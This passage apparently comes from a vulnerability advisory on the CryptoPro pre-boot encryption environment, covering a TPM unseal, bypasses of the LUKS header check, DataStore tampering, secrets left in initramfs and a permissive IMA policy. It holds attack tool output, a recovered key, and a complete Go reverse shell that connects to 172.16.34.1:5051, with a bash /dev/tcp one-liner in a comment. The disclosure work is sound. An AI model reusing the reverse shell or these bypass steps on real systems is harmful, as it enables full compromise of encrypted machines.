			copy(rollSum[:], sum)
		}
	}

	return rollSum[:], nil
}
```
**`ragavan` EFI PCR Value Generation Logic**

The value to extend the PCR can then be calculated with the `RollEFIPCR` operation of `ragavan`:
```
# ragavan RollEFIPCR /mnt/efi
[+] [ragavan] [RollEFIPCR] PCR-15 extend Encode: U4/64vlGSP8kspTrhpDuLCM/qYsUhQgtKS7EbgDR8BQ=
[+] [ragavan] [RollEFIPCR] PCR-15 extend raw: 538ffae2f94648ff24b294eb8690ee2c233fa98b1485082d292ec46e00d1f014
```
**`ragavan` PCR Measurement Value Generation**

As a result of the TPM PCR policy being unbound from the system boot state, it was possible to unseal the TPM from an alternatively booted OS or live Linux distro. Leveraging the `ragavan` operation `UnsealTPM20`, from a live Debian system, the TPM could be unsealed and the `DataStore` DataStore Key (DSK) can be recovered:

```
# ragavan UnsealTPM20 -f /mnt/efi /dev/sda
[+] [edaDisk] [GetEDAPart] NIX Partition Located 
	 PartNo: 4 StartSector: 62873600 EndSector: 66019327 SectorCount: 3145728
[+] [edaDisk] [getLayoutTable] Magic Byte Header Located @ 66019311
[+] [attack] [pullTPMData] successful TPM data block recovery
[*] [attack] [pullTPMData] TPM data block is locked
[*] [tpm] [getPCR] TPM PCR MagicBytes: 0xd2002011 offset: 16352
[*] [tpm] [Unshuffle] TPM Reserv Data Block MagicBytes: 0x00000000d1002011 Size: 8492
[*] [tpm] [Unshuffle] TPM Reserv Data Block Unshuffle size: 8544
[*] [tpm] [getBlock] TPM EncryptedBlock MagicBytes: 0x02002011 Size: 8192
[*] [tpm] [getBlock] TPM EncryptedBlock unshuffled size: 8192
[*] [tpm] [getPubKey] TPM PubKey MagicBytes: 0x00000000 Size: 80 Index: 8192
[*] [tpm] [getPubKey] TPM PubKey unshuffle size: 80
[*] [tpm] [getPriKey] TPM PriKey MagicBytes: 0x00000000 Size: 192 Index: 8292
[*] [tpm] [getPriKey] TPM PriKey unshuffle size: 190
[+] [attack] [pullTPMData] successful validation of random bytes
[*] [tpm] [Unseal] recovered PCR mask: 15
[*] [tpm] [Unseal] PCR:15 hash domain:
  sha256:
    15: 0x0000000000000000000000000000000000000000000000000000000000000000
[*] [tpm] [Unseal] PCR:15 extended sha256:538ffae2f94648ff24b294eb8690ee2c233fa98b1485082d292ec46e00d1f014
[*] [tpm] [Unseal] Policy loaded: name: 000bc1a1d64e9458154de053363eb52b8799b4d7e9efd5610bfc4314af66e0ad81ac
[*] [tpm] [Unseal] Policy authenticated
[*] [tpm] [Unseal] PCR policy loaded: 576d0765a816aea8f48c7d84a2d900d5b2eb8af6f82cdbeb1832aa5e19b76715
[+] [tpm] [Unseal] TPM Unsealed
[+] [ragavan] [UnsealTPM20] DataStore DEK: Kjnp4eS29S22JN9zRePmniE47xFCKThah/kdmEPVSIMyivrCr6QzbRG4ko7tiM1yayHYFCT9spQx4YTbhaTyyQ==
```
**Unsealing TPM with `ragavan`**

Exploitation of this attack surface is demonstrated via the **LiveOS Attack** from the reference section of this advisory.
### `Bootxsa.efi` - Insufficient LUKS Encryption Validation (CVE-2025-59327)

CryptoPro performs integrity validation of select files from both EFI and the EDA Partition during system initialization. This is done to assert the environment is within a known good state. However, this integrity validation process was skipped if the Linux partition contents were assumed to be encrypted. The EFI executable `Bootxsa.efi` was observed to insufficiently validate the state of LUKS encryption based on only reading the first 4-bytes of the partition header. If the header reflected the ASCII value `LUKS` the partition was assumed to be encrypted and content integrity validation was not performed.


**`Bootxsa.efi` Encryption Check via `_util_is_encrypted_linux_partition`**

The EFI integrity validation process would evaluate selective directories and files of the Linux partition and produce an integrity failure during the boot process if these contents were modified:


**CryptoPro EFI Integrity Failure**

Leveraging the custom tooling `ragavan` and modifying the 4-byte header would then falsely identify the Linux partition as encrypted and skip the integrity validation process, allowing the system to continue the boot process.

```
$ ragavan attwriteLUKS -p 4 -dd /dev/nbd0
[*] [edaDisk] [GetEDAPart] NIX index set for partition 4
[*] [edaDisk] [WriteLUKSHeader] writting Magic Bytes (0x4c554b53=LUKS) to partition 4
[*] [utils] [WriteBytesToSeekFile] Copied 4 bytes to /dev/nbd0 at offset 32191283200
[DEBUG] [edaDisk] [WriteLUKSHeader] Sector Header:
  00000000  4C 55 4B 53 00 00 00 00  00 00 00 00 00 00 00 00  |LUKS............|
  00000010  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|

[+] [edaDisk] [WriteLUKSHeader] successful set LUKS header at offset 32191283200
```
**`ragivan` Write `LUKS` Partition Header**

Upon manually setting the partition header to contain the value `LUKS`, the encryption status was validated via `cryptsetup` - confirming the partition was not LUKS encrypted:
```
# cryptsetup luksDump /dev/nbd0p5
Device /dev/mapper/nbd0p5 is not a valid LUKS device.
```
**`cryptsetup` Partition Status**

With these modifications in place, integrity validation of the Linux partition was skipped and CryptoPro completed the boot process to launch Windows:


**`LUKS` Header Successful Boot**

Exploitation of this attack surface is demonstrated via the **LUKS Attack** from the reference section of this advisory.
### `initramfs` - Insufficient Validation of LUKS Encryption (CVE-2025-59324)

The init file system, contained within `BZImage.efi`, was used to bootstrap the CryptoPro environment before switching the root file system to the Linux partition. The initialization script `init.sh` was used to perform this process and would validate the encryption state of Linux via the first 4-bytes of the partition header via the `get_encryption_state()` function:
```bash
get_encryption_state() {
	PART_HEADER=$(dd if=$EDAPARTITION bs=1 count=4)
	if [ "$PART_HEADER" = "LUKS" ]
	then
		echo "ENCRYPTED"
	else
		echo "PLAIN"
	fi
}
```
**`get_encryption_state` Function**

If the partition header contained the value `LUKS`, the partition was assumed to be encrypted. The default unencrypted header would be constructed with null bytes:
```
# hexdump -C -s 32191283200 /dev/mapper/nbd0 | head
77ec00000  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
77ec00400  00 05 01 00 de 7b 04 00  7a 0b 00 00 12 fa 00 00  |.....{..z.......|
77ec00410  89 d9 00 00 00 00 00 00  02 00 00 00 02 00 00 00  |................|
77ec00420  00 80 00 00 00 80 00 00  00 1d 00 00 68 a8 2c 68  |............h.,h|
77ec00430  32 a8 2c 68 04 00 ff ff  53 ef 00 00 01 00 00 00  |2.,h....S.......|
77ec00440  d3 81 bc 67 00 00 00 00  00 00 00 00 01 00 00 00  |...g............|
77ec00450  00 00 00 00 0b 00 00 00  00 01 00 00 38 00 00 00  |............8...|
77ec00460  02 00 00 00 03 00 00 00  be 11 64 05 96 50 41 f6  |..........d..PA.|
77ec00470  89 b4 48 57 ba 90 31 37  00 00 00 00 00 00 00 00  |..HW..17........|
```
**Default Magic Bytes of EDA Disk**

In the main logic of the `init.sh` script, if the `ENC_STATE` does not equal `PLAIN`, the logic to mount the encrypted partition is then executed:
```bash
`ENC_STATE=$(get_encryption_state)`

if [ "$ENC_STATE" = "PLAIN" ]
then
...
else
    # get crypt info (password, ...) from data store
    /bin/crypt_config -i -f /tmp/crypt_config.out
    MAX_SECTORS=$(grep SECTORS_LNX /tmp/crypt_config.out | cut -d ":" -f 2)
    MAX_BYTES=$(($MAX_SECTORS * 512))
   	setup_crypto_loopback_device $MAX_BYTES

	DO_ENCRYPT="$(grep ENCRYPT /tmp/crypt_config.out | cut -d ":" -f 2)"
	if [ "$DO_ENCRYPT" = "FALSE" ]
	then
		scr_msg "Decrypting PBA..."
		sleep 2
		decrypt_partition
		scr_msg "Mount Plain"
		sleep 2
		mount_plain_partition
		...

```
**`initramfs` Partition Mount Pipeline**

As a result, the `init.sh` script will then allow the system to continue the boot process do to insufficient error validation, detailed under the **`initramfs` - Insufficient Error Return for Decryption Failures** finding in this advisory. Exploitation of this attack surface is demonstrated via the **LUKS Attack** from the reference section of this advisory.

### `initramfs` - Insufficient Error Return for Decryption Failures (CVE-2025-59322)

The init file system, contained within `BZImage.efi`, was used to bootstrap the CryptoPro environment before switching the root file system to the EDA Partition. The initialization script (`init.sh`) would carry out this process by initially identifying if the partition was encrypted based on the first 4-bytes of the partition header: 
```bash
get_encryption_state() {
	PART_HEADER=$(dd if=$EDAPARTITION bs=1 count=4)
	if [ "$PART_HEADER" = "LUKS" ]
	then
		echo "ENCRYPTED"
	else
		echo "PLAIN"
	fi
}
```
**`get_encryption_state` Function**

If the partition header contained the value `LUKS`, the partition was assumed to be encrypted. The default unencrypted header was constructed of null bytes:
```
# hexdump -C -s 32191283200 /dev/mapper/nbd0 | head
77ec00000  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
77ec00400  00 05 01 00 de 7b 04 00  7a 0b 00 00 12 fa 00 00  |.....{..z.......|
77ec00410  89 d9 00 00 00 00 00 00  02 00 00 00 02 00 00 00  |................|
77ec00420  00 80 00 00 00 80 00 00  00 1d 00 00 68 a8 2c 68  |............h.,h|
77ec00430  32 a8 2c 68 04 00 ff ff  53 ef 00 00 01 00 00 00  |2.,h....S.......|
77ec00440  d3 81 bc 67 00 00 00 00  00 00 00 00 01 00 00 00  |...g............|
77ec00450  00 00 00 00 0b 00 00 00  00 01 00 00 38 00 00 00  |............8...|
77ec00460  02 00 00 00 03 00 00 00  be 11 64 05 96 50 41 f6  |..........d..PA.|
77ec00470  89 b4 48 57 ba 90 31 37  00 00 00 00 00 00 00 00  |..HW..17........|
```
**Default Magic Bytes of EDA Disk**

In the main logic of the `init.sh` script, if the `ENC_STATE` did not equal `PLAIN`, the logic to mount the encrypted partition was then executed:
```bash
`ENC_STATE=$(get_encryption_state)`

if [ "$ENC_STATE" = "PLAIN" ]
then
...
else
    # get crypt info (password, ...) from data store
    /bin/crypt_config -i -f /tmp/crypt_config.out
    MAX_SECTORS=$(grep SECTORS_LNX /tmp/crypt_config.out | cut -d ":" -f 2)
    MAX_BYTES=$(($MAX_SECTORS * 512))
   	setup_crypto_loopback_device $MAX_BYTES

	DO_ENCRYPT="$(grep ENCRYPT /tmp/crypt_config.out | cut -d ":" -f 2)"
	if [ "$DO_ENCRYPT" = "FALSE" ]
	then
		scr_msg "Decrypting PBA..."
		sleep 2
		decrypt_partition
		scr_msg "Mount Plain"
		sleep 2
		mount_plain_partition
		...

```
**`initramfs` Partition Mount Pipeline**

The executable `crypt_config` was used to pull CryptoPro configuration details from the encrypted `DataStore` and save selective details to `crypt_config.out`. This file was consulted to identify the `ENCRYPT` status, that was collected from the contents of the `DataStore`'s `EDAS_PRF.XML` file - designating if the partition should be encrypted. The default configuration status of this setting was `FALSE`, defined under the `EDAClientSecurity` section of the XML policy:

```xml
<EDAClientSecurity>
  ...
  <EncryptLinuxPBA>FALSE</EncryptLinuxPBA>
```
**`DataStore` `EDAS_PRF.XML` Linux Encryption Status**

This value was used to populate the `ENCRYPT` key under `crypt_config.out`, which was assigned to `DO_ENCRYPT` in `init.sh`. The contents of `crypt_config.out` were as follows:
```
ENCRYPT:FALSE
IS_ENCR:FALSE
PASSWORD:[REDACTED]
ISO_HASH:b6c8c05613d67d7826b671b2bea9d4f6b0229e25d45c0e0bb65db760499c4814
IMA:TRUE
SECTORS_LNX:2416368
SECTORS_LOG:204800
OFFSET_LOG:2416400
```
**Default Contents of `crypt_config.out`**

If `ENCRYPT` was set to `FALSE`, `init.sh` would attempt to decrypt the Linux partition via `decrypt_partition()`:
```bash
decrypt_partition() {
    ...
    PASSWORD="$(grep PASSWORD /tmp/crypt_config.out | cut -d ":" -f 2)"

    if [ -z "$PASSWORD" ]
    then
        log_msg "Cannot decrypt, empty password."
        return 1
    fi
    
    echo -ne "$PASSWORD" | cryptsetup luksConvertKey --key-slot 0 --pbkdf pbkdf2 $CRYPT_LOOPBACK || return 1
    echo -ne "$PASSWORD" | cryptsetup convert --type luks1 $CRYPT_LOOPBACK	|| return 1
    echo -ne "$PASSWORD" | cryptsetup-reencrypt --decrypt $CRYPT_LOOPBACK	|| return 1
    losetup -d $CRYPT_LOOPBACK
```
**`decrypt_partition()` from `init` Script**

Any failure condition within `decrypt_partition` would return the value `1`, to indicate an error had occurred. This return value was unhandled, allowing `init.sh` to continue the execution flow and call `mount_plain_partition` which would mount the EDA Partition as a plaintext block device:
```bash
mount_plain_partition() {
    log_msg "mount -o ro $EDAPARTITION $ROOT_MOUNTPOINT"
    mount -o ro $EDAPARTITION $ROOT_MOUNTPOINT  || emergency_halt $ERR_MOUNT_PLAIN
}
```
**`mount_plain_partition()` Unencrypted Mount Routine**

In `mount_plain_partition` the variable `EDAPARTITON` was set to a custom `dev` device that pointed to the offset of the Linux partition from the raw block device (`/dev/edapartition`). This volume was then mounted to `/mnt/root` (`ROOT_MOUNTPOINT`). The device `/dev/edapartition` was a Kernel established symlink representing the block device of the Linux partition:
```
bash-5.0# ls -al /dev/edapartition
ls -al /dev/edapartition
lrwxrwxrwx 1 root root 4 May 20 17:21 /dev/edapartition -> sda5
```
**`/dev/edapartition` Link Path**

Exploitation of this attack surface is demonstrated via the **LUKS Attack** from the reference section of this advisory.
### `DataStore` - Insufficient Integrity Validation (CVE-2025-59323)

CrytoPro defines a hidden single sector layout table at the end of the Linux partition, approximately `0x11` HEX from the end sector offset. This layout table defines the locations of various hidden data blocks within the defined partition space. Using the customized tool `ragavan` this sector table was analyzed to locate the system's `DataStore`:
```
# ragavan PrintBlocks /dev/sda
[+] [edaDisk] [GetEDAPart] NIX Partition Located 
	 PartNo: 4 StartSector: 62873600 EndSector: 66019327 SectorCount: 3145728
[+] [edaDisk] [getLayoutTable] Magic Byte Header Located @ 66019311
[*] [ragavan] [PrintBlocks] EDA Layout Table: 
	0   62873600     65289968     2416368          NIX Data Block
	1   65290000     65494800     204800           Log Store
	2   65494800     65494816     16               TPM RBytes
	3   65494816     65494848     32               TPM Data Block
	4   65494848     65494864     16               Resv1 Data Block
	5   65494864     65494880     16               DataStore RBytes
	6   65494880     66019168     524288           DataStore
	7   66019168     66019296     128              TPM Resv Data Block
	8   66019296     66019296     0                Resv2 Data Block
	9   66019311     66019312     1                EDA Layout Table
```
**`ragavan` Hidden Layout Table Extraction**

By default the `DataStore` is encrypted with AES-XTS from a key that was initially derived from a list of static offsets within `DataStore RBytes`. After the first boot sequence of CryptoPro, this key is sealed away in the TPM and the `DataStore RBytes` block is re-initialized. See the white-paper in the reference section for additional details regarding the storage of the `DataStore` encryption key and details regarding the TPM policy.

Once an attacker has recovered the `DataStore` encryption key, they can decrypt the contents with `ragavan`:

```
# ragavan SSDecryptDS -f /tmp/dstore.bin -k Kjnp4eS29S22JN9zRePmniE47xFCKThah/kdmEPVSIMyivrCr6QzbRG4ko7tiM1yayHYFCT9spQx4YTbhaTyyQ== /dev/sda
[+] [edaDisk] [GetEDAPart] NIX Partition Located 
	 PartNo: 4 StartSector: 62873600 EndSector: 66019327 SectorCount: 3145728
[+] [edaDisk] [getLayoutTable] Magic Byte Header Located @ 66019311
[*] [attack] [SSDecryptBlockXTS] Seeking read /dev/sda @ 65494880
[*] [attack] [SSDecryptBlockXTS] Activating 100 XTS decryption threads @ block size 4096
[*] [attack] [SSDecryptBlockXTS] Progress 0.00% (0/65536 sectors)
[*] [attack] [SSDecryptBlockXTS] Progress 6.67% (4369/65536 sectors)
[*] [attack] [SSDecryptBlockXTS] Progress 13.33% (8738/65536 sectors)
...
[*] [attack] [SSDecryptBlockXTS] Progress 100.00% (65535/65536 sectors)
[+] [ragavan] [SSDecryptDataStore] decrypted DataStore written to /tmp/dstore.bin
```
**`ragavan` - `DataStore` Block Decryption**

Once decrypted, the contents of the `DataStore` can then be read or modified:

```
# ls -al /mnt/dstore
total 2184
drwxr-xr-x 8 root root  16384 Jan  1  1970 .
drwxr-xr-x 7 root root     74 Jul  5 20:19 ..
-rwxr-xr-x 1 root root      4 Feb  4  2026 ADMINS.BIN
-rwxr-xr-x 1 root root     12 Feb  4  2026 AUTOREBO.BIN
-rwxr-xr-x 1 root root 512004 Feb  4  2026 BGIMAGE.BIN
-rwxr-xr-x 1 root root     64 Feb  4  2026 BGIMG_HA.BIN
-rwxr-xr-x 1 root root     42 Feb  4  2026 BGIMG_PA.BIN
-rwxr-xr-x 1 root root      1 Mar  1 17:42 BIMG_NEW.BIN
-rwxr-xr-x 1 root root     30 May 17 00:24 BOOT_CFG.BIN
-rwxr-xr-x 1 root root      8 Feb  4  2026 CAPROFTS.BIN
-rwxr-xr-x 1 root root     15 May 17 00:24 CAURLS.BIN
-rwxr-xr-x 1 root root      1 Feb  4  2026 CHKSCBL.BIN
-rwxr-xr-x 1 root root 405383 Feb  4  2026 CHKSUMS.BIN
-rwxr-xr-x 1 root root     16 Feb  4  2026 CL_GUID.BIN
-rwxr-xr-x 1 root root     16 Feb  4  2026 CL_NAME.BIN
-rwxr-xr-x 1 root root      4 Feb  4  2026 CL_STATE.BIN
-rwxr-xr-x 1 root root     12 May 17 00:24 CL_VERS.BIN
-rwxr-xr-x 1 root root 126402 May 16 23:24 DMESG.TXT
-rwxr-xr-x 1 root root  10016 Mar  1 17:42 DR2.BIN
-rwxr-xr-x 1 root root      5 Mar  1 17:42 EBEDATA.BIN
-rwxr-xr-x 1 root root   9574 May 16 23:18 EDAS_PRF.XML
-rwxr-xr-x 1 root root      1 Feb  4  2026 ENAB_CA.BIN
-rwxr-xr-x 1 root root     39 Feb  4  2026 ENCQUEUE.BIN
-rwxr-xr-x 1 root root     21 Mar  1 17:45 ENCSTATE.BIN
-rwxr-xr-x 1 root root    712 Feb  4  2026 ESCS_PRF.XML
-rwxr-xr-x 1 root root    236 Mar  1 17:42 EVENT.LOG
-rwxr-xr-x 1 root root      4 Mar  1 17:42 EVT_TSUP.BIN
drwxr-xr-x 2 root root   8192 Feb  4  2026 HELPDESK
-rwxr-xr-x 1 root root      1 Mar  1 17:42 HW_ENC_A.BIN
-rwxr-xr-x 1 root root      1 Mar  1 17:05 HW_ENCR.BIN
-rwxr-xr-x 1 root root      8 May 17 00:24 I18N.BIN
-rwxr-xr-x 1 root root      4 Feb  4  2026 INITAUTH.BIN
-rwxr-xr-x 1 root root      0 May 17 00:24 KEK2_CON.BIN
-rwxr-xr-x 1 root root      0 May 16 23:24 KEK_CONC.BIN
drwxr-xr-x 2 root root   8192 Feb  4  2026 KEYS
-rwxr-xr-x 1 root root      1 Feb  4  2026 LANGBG.BIN
-rwxr-xr-x 1 root root   2217 Feb  4  2026 LANG.XML
-rwxr-xr-x 1 root root   5444 Feb  4  2026 LAYOUT.XML
-rwxr-xr-x 1 root root      4 Feb  4  2026 LICENSE.BIN
drwxr-xr-x 2 root root   8192 Feb  4  2026 LINUX
-rwxr-xr-x 1 root root  14398 May 16 23:23 LKGLH.BIN
-rwxr-xr-x 1 root root    512 Feb  4  2026 MBR.BIN
-rwxr-xr-x 1 root root     16 May 17 00:24 OFFS_UTC.BIN
drwxr-xr-x 2 root root   8192 Feb  4  2026 P11
-rwxr-xr-x 1 root root    199 May 17 00:24 PARTMAP.TXT
-rwxr-xr-x 1 root root      1 Mar  1 17:42 REINITHW.BIN
-rwxr-xr-x 1 root root      1 Feb  4  2026 S4REACT.BIN
-rwxr-xr-x 1 root root     20 May 16 23:24 SELFINIT.BIN
-rwxr-xr-x 1 root root 129264 Feb  4  2026 SHA256.BIN
-rwxr-xr-x 1 root root   3789 Feb  4  2026 SSLCERTS.BIN
-rwxr-xr-x 1 root root 501119 Mar  1 17:42 SYS_FLST.TXT
-rwxr-xr-x 1 root root    180 Feb  4  2026 TIMESERV.BIN
drwxr-xr-x 2 root root   8192 Feb  4  2026 TOTP
-rwxr-xr-x 1 root root     32 Mar  1 17:42 TPADB.BIN
-rwxr-xr-x 1 root root    104 Mar  1 17:49 TPM_OBJS.BIN
-rwxr-xr-x 1 root root      8 May 17 00:24 TSTAMP_M.BIN
-rwxr-xr-x 1 root root      8 May 17 00:24 URL_TS.BIN
-rwxr-xr-x 1 root root      4 Feb  4  2026 VIDEO.BIN
drwxr-xr-x 2 root root   8192 Feb  4  2026 VSCAN
-rwxr-xr-x 1 root root  88498 May 17 00:24 WINLOG.BIN
```
**`DataStore` Block Contents**

During system initialization, `ss_gui` or `ss_nogui` would extract `sha256sum` and `wc` from the contents of the decrypted `DataStore` to perform integrity validation of files and directories on the Linux partition. Extraction of this content was done through `_ss_integrity_pba_prepare_checksum_binaries`:


**`ss_nogui` `_ss_integrity_pba_prepare_checksum_binaries` Extraction of `SHA256.BIN`**

In the function `_ss_integrity_pba_prepare_checksum_binaries`, `SHA256.BIN` is extracted from the `DataStore` and saved to `/tmp/csbin.tar.xz`. This file was then decompressed, unpacked, and the contents executed. 

The extracted contents of `SHA256.BIN` was observed to carry the following files:
```
$ file SHA256.BIN 
SHA256.BIN: XZ compressed data, checksum CRC64
$ unxz -c SHA256.BIN| tar xvf - 
cut
cut.sig
grep
grep.sig
sha256sum
sha256sum.sig
sigfiles.txt
wc
wc.sig
```
**`DataStore` `SHA256.BIN` Contents**

Once extracted, the `sha256sum` binary was replaced with a `GoLang` reverse shell:
```go
package main

import (
	"bytes"
	"fmt"
	"net"
	"os/exec"
	"strings"
	"time"
)

// SysCall executes a system command and returns its output.
func SysCall(cmd string) ([]byte, error) {
	call := strings.Split(cmd, " ")
	_cmd := exec.Command(call[0], call[1:]...)

	var out bytes.Buffer
	_cmd.Stdout = &out
	_cmd.Stderr = &out

	if err := _cmd.Run(); err != nil {
		return nil, err
	}

	return out.Bytes(), nil
}

// bash -i >& /dev/tcp/localhost/6666 0>&1
func reverse(host string) {
	for {
		c, err := net.Dial("tcp", host)
		if nil != err {
			if nil != c {
				c.Close()
			}
			time.Sleep(time.Minute)
			reverse(host)
		}

		cmd := exec.Command("/bin/sh")
		cmd.Stdin, cmd.Stdout, cmd.Stderr = c, c, c
		cmd.Run()
		c.Close()
	}
}

func main() {
	list := []string{
		"/sbin/ifconfig eth0 up",
		"/sbin/ifconfig eth0 172.16.34.5 netmask 255.255.255.0",
	}

	for i, call := range list {
		_, err := SysCall(call)
		if err != nil {
			fmt.Printf("command failure: %d %v", i, err)
		}
	}

	reverse("172.16.34.1:5051")

}
```
**`GoLang` Reverse Shell**

The `SHA256.BIN` archive was then reconstructed and saved to the decrypted `DataStore` volume. The `DataStore` contents could then be re-written to the system disk with `ragavan`:
```
ragavan WriteFile -f dataStore.bin -s 65494880 -dd /dev/nbd0
[*] [utils] [WriteFileSeek] Copied 268435456 bytes from dataStore.bin to /dev/sda at offset 33533378560
```
**`ragavan` Replace `DataStore`**

As a result of the encryption fallback deficency, the contents of the `DataStore` could be written back to the system disk as an unencrypted block. Examination of the written content validates the `DataStore` was a plaintext block:
```
hexdump -s 33533378560 -C /dev/nbd0 | head
7cebec000  eb fe 90 4d 53 44 4f 53  35 2e 30 00 02 10 01 00  |...MSDOS5.0.....|
7cebec010  02 00 02 00 00 f0 ef 00  3f 00 ff 00 00 00 00 00  |........?.......|
7cebec020  00 00 08 00 80 00 29 e3  00 56 5a 4e 4f 20 4e 41  |......)..VZNO NA|
7cebec030  4d 45 20 20 20 20 46 41  54 20 20 20 20 20 00 00  |ME    FAT     ..|
7cebec040  00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  |................|
*
7cebec1f0  00 00 00 00 00 00 00 00  00 00 00 00 00 00 55 aa  |..............U.|
7cebec200  f0 ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
7cebec210  ff ff ff ff ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
7cebec220  11 00 12 00 ff ff ff ff  ff ff ff ff ff ff ff ff  |................|
```
**Plaintext `DataStore`**

As the environment was initialized through the standard boot-up sequence, the TPM was unlocked and the `DataStore` encryption key could be recovered from `/dev/shm/superschaf`. Exploitation of this attack surface is demonstrated via the **SHA256 Attack** from the reference section of this advisory.

### `initramfs` - Insecure Secret Storage (CVE-2025-59325)

The contents of `bzImage.efi` could be extracted via `unblob`:
```
$ docker run -v $(pwd)/input:/data/input -v $(pwd)/output:/data/output ghcr.io/onekey-sec/unblob:latest /data/input/bzImage.efi

╭────────────────────────────── unblob (25.4.14) ──────────────────────────────╮
│ Output path: /data/output/bzImage.efi_extract                                │
│ Extracted files: 531                                                         │
│ Extracted directories: 246                                                   │
│ Extracted links: 217                                                         │
│ Extraction directory size: 142.84 MB                                         │
╰────────────────────────────────── Summary ───────────────────────────────────╯
            Chunks distribution             
┏━━━━━━━━━━━━━━━━━━━━━┳━━━━━━━━━━━┳━━━━━━━━┓
┃ Chunk type          ┃   Size    ┃ Ratio  ┃
┡━━━━━━━━━━━━━━━━━━━━━╇━━━━━━━━━━━╇━━━━━━━━┩
│ ELF64               │ 65.20 MB  │ 49.17% │
│ CPIO_PORTABLE_ASCII │ 38.68 MB  │ 29.18% │
│ XZ                  │ 28.22 MB  │ 21.29% │
│ GZIP                │ 362.34 KB │ 0.27%  │
│ TAR                 │ 70.00 KB  │ 0.05%  │
│ UNKNOWN             │ 64.53 KB  │ 0.05%  │
└─────────────────────┴───────────┴────────┘
Chunk identification ratio: 99.95%
```
**`unblob` Extraction of `bzImage.efi` Contents**

Within the EFI kernel image was a `CPIO` compressed container representing `initramfs`. Successful extraction of this file allowed access to it's contents:
```
$ ls -al
total 168
drwxrwxr-x 17 root root  4096 May  8 09:11 .
drwxrwxr-x  3 root root  4096 May  8 09:11 ..
drwxrwxr-x  2 root root  4096 May  8 09:11 bin
drwxrwxr-x  2 root root  4096 May  8 09:11 dev
drwxrwxr-x  5 root root  4096 May  8 09:11 etc
-rw-r--r--  1 root root     6 May  8 09:11 .gitignore
-rw-r--r--  1 root root 12025 May  8 09:11 init
-rw-r--r--  1 root root 12180 May  8 09:11 init_dbg
lrwxrwxrwx  1 root root     4 May  8 09:11 init.sh -> init
drwxrwxr-x  2 root root  4096 May  8 09:11 lib
drwxrwxr-x  2 root root  4096 May  8 09:11 lib64
drwxrwxr-x  2 root root  4096 May  8 09:11 LOG
drwxrwxr-x  5 root root  4096 May  8 09:11 mnt
drwxrwxr-x  2 root root  4096 May  8 09:11 proc
drwxrwxr-x  2 root root  4096 May  8 09:11 root
drwxrwxr-x  2 root root  4096 May  8 09:11 run
drwxrwxr-x  2 root root  4096 May  8 09:11 sbin
-rw-r--r--  1 root root 71680 May  8 09:11 signatures_dbg.tar
drwxrwxr-x  8 root root  4096 May  8 09:11 signatures_dbg.tar_extract
drwxrwxr-x  2 root root  4096 May  8 09:11 sys
drwxrwxr-x  2 root root  4096 May  8 09:11 tmp
drwxrwxr-x  6 root root  4096 May  8 09:11 usr
```
**`bzImage.efi` `CPIO` Extracted Contents**

From this container, `crypt_config` and `signatures_dbg.tar` could be recovered and examined:
```
$ ls -al bin/crypt_config
-rw-r--r-- 1 root root 6708232 May  8 09:11 bin/crypt_config

$ ls -al signatures_dbg.tar
-rw-r--r-- 1 burch burch 71680 May 16 16:11 signatures_dbg.tar
```
**`bzImage.efi` `crypt_config` Recovery**

The binary `crypt_config` was observed to contain numerous cryptographic routines and hardcoded values. The archive `signatures_dbg.tar` was observed to contain the IMA signing keys for executables within the `initramfs` environment:

```
$ tar -xvf signatures_dbg.tar 
...
./usr/SUPERSHEEP/trousers/lib/libtspi.so.1.2.0.sig
./usr/SUPERSHEEP/trousers/sbin/tcsd.sig
./usr/sbin/cryptsetup.sig
...
./bin/crypt_config.sig
./bin/mount.sig
./bin/busybox.sig
...
```
**`signatures_dbg.tar` Content Extraction**

The signing key for `/bin/busybox` (`/bin/busybox.sig`) was used to construct a new rootfs that would pass the Linux IMA policy and provide a path for code execution via **Linux Partition Selection from FIFO Index (CVE-2025-59319)**. For further details on how this environment can be constructed and the system exploited see the white-paper link detailed in the references section of this advisory. Exploitation of this attack surface is demonstrated via the **STACK Attack** from the reference section of this advisory.
### Permissive IMA Security Policy (CVE-2025-59326)

CryptoPro's Linux environment defines several directory paths, including `/tmp`, to be a `tmpfs` via the `/etc/fstab` configuration file:
```
# cat etc/fstab
# Begin /etc/fstab

# file system  mount-point  type   options         dump  fsck
#                                                        order
/tmp/rootfs	/		ext4	defaults	1	1
proc		/proc		proc	defaults,noauto	0	0
sysfs		/sys		sysfs	defaults,noauto	0	0
debugfs		/sys/kernel/debug	debugfs	defaults	0	0
securityfs	/sys/kernel/security	securityfs	defaults	0	0
devpts		/dev/pts	devpts	gid=4,mode=620	0	0
shm		/dev/shm	tmpfs	defaults	0	0

tmpfs		/run		tmpfs	defaults,noauto	0	0
tmpfs		/tmp		tmpfs	defaults	0	0
tmpfs		/var		tmpfs	defaults	0	0
tmpfs		/root		tmpfs	defaults	0	0
tmpfs		/mnt		tmpfs	defaults	0	0

devtmpfs	/dev		devtmpfs	mode=0755,nosuid,noauto	0	0
efivarfs	/sys/firmware/efi/efivars	efivarfs	defaults	0	0

# End /etc/fstab
```
**`/etc/fstab` Configuration File**

The Linux Kernel IMA policy is implemented during system initialization from the `initramfs` environment, compressed within the EFI file `bzImage.efi`. The content of this environment is unencrypted and can be extracted with tools, such as `unblob`.  Within `initramfs` the  environment is bootstrapped via `/init.sh`. This script initializes the IMA Linux Kernel and loads the default policy:
```bash
# Mount various virtual file systems
mount -t proc none /proc
...
mount -t securityfs none  /sys/kernel/security
mkdir /dev/shm
mount -t tmpfs shm /dev/shm

# updating IMA policy
echo "/etc/ima/policy.conf" > /sys/kernel/security/ima/policy
```
**`initramfs` - `/init.sh` IMA Initialization**

The IMA policy is contained both within the `initramfs` file system and the Linux partition. This policy was observed to disable policy enforcement for `tmpfs` architectures:
```bash
# TMPFS_MAGIC
dont_measure fsmagic=0x01021994
dont_appraise fsmagic=0x01021994
# RAMFS_MAGIC
dont_appraise fsmagic=0x858458f6
# DEVPTS_SUPER_MAGIC
dont_measure fsmagic=0x1cd1
dont_appraise fsmagic=0x1cd1
```
**Permissive IMA Policy**

The `initramfs` passes execution to the Linux partition via a syscall to `switch_root`. Prior to this instruction several file systems are unmounted, with the exception of `/sys/kernel/security`. Continuing enforcement of the original IMA policy loaded via `init.sh`:
```bash
unmount_filesystems

...
